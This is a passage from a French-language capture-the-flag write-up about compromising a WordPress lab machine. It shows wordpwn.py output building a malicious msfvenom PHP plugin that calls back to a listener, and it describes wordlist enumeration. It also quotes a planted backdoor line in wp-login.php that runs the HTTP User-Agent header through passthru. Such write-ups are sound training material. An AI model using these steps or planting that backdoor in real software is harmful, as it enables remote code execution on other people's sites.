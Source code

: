 ```plain
$ python wordpwn.py 10.254.0.29 7777 N
[*] Checking if msfvenom installed
[+] msfvenom installed
[+] Generating plugin script
[+] Writing plugin script to file
[+] Generating payload To file
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1506 (iteration=0)
php/base64 chosen with final size 1506
Payload size: 1506 bytes

[+] Writing files to zip
[+] Cleaning up files
[+] General Execution Location: http://(target)/wp-content/plugins/malicous/
[+] General Upload Location: http://(target)/wp-admin/plugin-install.php?tab=upload
```

Mais pas plus de chances, cette fois c'est le dossier */wp/content/uploads* qui semble en lecture seule...  

Il y a bien [cette vulnérabilité qui pourrait toucher le Wordpress](https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/) mais son exploitation semble assez capilotractée, d'ailleurs il n'existe pas d'exploit correspondant.  

Pour une difficulté de 5/10 ça semble assez improbable que ce soit le chemin attendu...  

Size does matter
----------------

Avec un coup de pouce de *tejmal* (un autre participant) je me suis tourné vers une wordlist plus grosse pour l'énumération.  

En l’occurrence j'ai utilise le fichier suivant que l'on peut trouver sur Kali Linux :  

```plain
/usr/share/golismero/wordlist/fuzzdb/Discovery/PredictableRes/raft-large-files.txt
```

On découvre alors un fichier *notes.txt* dans la racine web avec le contenu suivant :  

```plain
/!\ Urgent :Our infrastructure got hacked by some hackers . Everyone must change credentials and please dont download zipped files because  they may be backdoored !
```

On enchaîne avec une énumération sur les fichiers zip et sans surprise on trouve un *wordpress.zip*. La décompression ne révèle pas de fichiers anormaux par rapport à une installation Wordpress standard.  

J'ai donc utilisé l'un des outils les plus avancés au monde, à savoir grep :p  

```plain
$ grep -r --include "*.php" passthru blog/
blog/wp-login.php:passthru($_SERVER['HTTP_USER_AGENT']);  // BOOM backdoor from the Heaven ^^
```
